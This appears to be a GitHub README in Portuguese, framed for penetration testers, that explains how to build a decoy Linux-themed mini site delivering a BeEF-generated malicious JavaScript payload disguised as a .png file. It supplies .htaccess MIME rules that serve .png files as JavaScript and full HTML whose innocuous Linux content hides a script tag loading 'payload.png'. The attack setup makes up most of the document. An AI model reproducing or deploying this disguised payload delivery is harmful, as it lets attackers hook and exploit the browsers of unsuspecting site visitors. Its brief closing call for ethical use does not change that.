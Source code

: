 # css_load
For pentests, redteam and blueteam of active countermeasures

# Tutorial: Criando um Mini Site sobre Linux com Payload Beef

Neste tutorial, você aprenderá como criar um mini site sobre Linux que contém uma imagem com uma div incorporando um arquivo .png que está sendo processado como .js pelo servidor. Para isso, usaremos o Beef para gerar um payload JavaScript malicioso, configuraremos um servidor PHP para processar arquivos .png como .js e criaremos um código HTML para o mini site.

## Passo 1: Configurar o Beef

1. Instale e configure o Beef. Você pode encontrar instruções detalhadas de instalação na documentação oficial do Beef: [Beef - Installing](https://github.com/beefproject/beef/wiki/Installing).
2. Inicie o Beef e acesse o painel de controle.

## Passo 2: Gerar o Payload

1. No painel de controle do Beef, navegue até a seção "Modules" e selecione "Exploits".
2. Escolha um exploit para gerar um payload JavaScript malicioso. Por exemplo, você pode selecionar um exploit que visa sistemas Linux.
3. Configure as opções do exploit conforme necessário e gere o payload JavaScript.

## Passo 3: Configurar o Servidor PHP

1. Crie um arquivo `.htaccess` no diretório do seu servidor PHP ou adicione as configurações ao arquivo `.htaccess` existente.
2. Adicione a seguinte linha ao arquivo `.htaccess` para que os arquivos `.png` sejam tratados como `.js`:

```
AddType application/javascript .png
```

### Tipos MIME:  
```
AddType application/x-httpd-php .php
AddType application/javascript .png
AddType text/css .txt



image/png: para arquivos PNG de imagem padrão.
application/javascript: para arquivos JavaScript.
text/css: para arquivos CSS.
text/html: para arquivos HTML.
application/xml: para arquivos XML.
application/json: para arquivos JSON.
image/svg+xml: para arquivos SVG.
```

## Passo 4: Criar o Código HTML

Aqui está um exemplo de código HTML para o mini site sobre Linux:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mini Site sobre Linux</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        .header {
            background-color: #333;
            color: #fff;
            padding: 10px;
            text-align: center;
        }
        .container {
            max-width: 800px;
            margin: 20px auto;
            padding: 20px;
            background-color: #f9f9f9;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
        .background {
            width: 500px;
            height: 300px;
            background-image: url('payload.png');
            background-size: cover;
            margin: 20px auto;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <div class="header">
        <h1>Mini Site sobre Linux</h1>
    </div>
    <div class="container">
        <h2>O que é o Linux?</h2>
        <p>O Linux é um sistema operacional de código aberto baseado em Unix que é amplamente utilizado em servidores e sistemas embarcados. Ele oferece uma variedade de distribuições, como Ubuntu, Fedora, CentOS e muitos outros.</p>
        <h2>Ajuste de Core do Kernel do Linux</h2>
        <p>O kernel do Linux oferece uma ampla gama de opções de ajuste para otimizar o desempenho do sistema. Isso inclui ajustes de agendamento de processos, gerenciamento de memória, configuração de rede e muito mais.</p>
        <h2>Comandos Básicos do Linux</h2>
        <p>Alguns comandos básicos do Linux incluem:</p>
        <ul>
            <li><code>ls</code>: listar arquivos e diretórios</li>
            <li><code>cd</code>: mudar de diretório</li>
            <li><code>mkdir</code>: criar um novo diretório</li>
            <li><code>rm</code>: remover arquivos ou diretórios</li>
            <li><code>cp</code>: copiar arquivos ou diretórios</li>
            <li><code>mv</code>: mover arquivos ou diretórios</li>
            <li><code>sudo</code>: executar um comando com privilégios de superusuário</li>
        </ul>
        <h2>Segurança no Linux</h2>
        <p>O Linux é conhecido por sua forte segurança, mas ainda existem práticas recomendadas para garantir a segurança do sistema, incluindo:</p>
        <ul>
            <li>Mantenha o sistema atualizado com patches de segurança</li>
            <li>Use senhas fortes e altere-as regularmente</li>
            <li>Configure corretamente as permissões de arquivo e diretório</li>
            <li>Use firewalls para controlar o tráfego de rede</li>
            <li>Monitore o sistema em busca de atividades suspeitas</li>
        </ul>
    </div>
    <div class="background"></div>
    <script src="payload.png"></script>
</body>
</html>

```

## Passo 5: Testar o Mini Site

1. Coloque o arquivo `.htaccess` no diretório do servidor PHP.
2. Coloque o arquivo HTML e o arquivo de payload gerado pelo Beef no diretório do servidor PHP.
3. Inicie o servidor PHP.
4. Acesse o mini site no navegador para testar.

Com este tutorial, você deve ser capaz de criar um mini site sobre Linux com uma imagem que contém um arquivo .png incorporado como .js, que é processado pelo servidor PHP. Certifique-se de usar essas técnicas de maneira ética e legal.
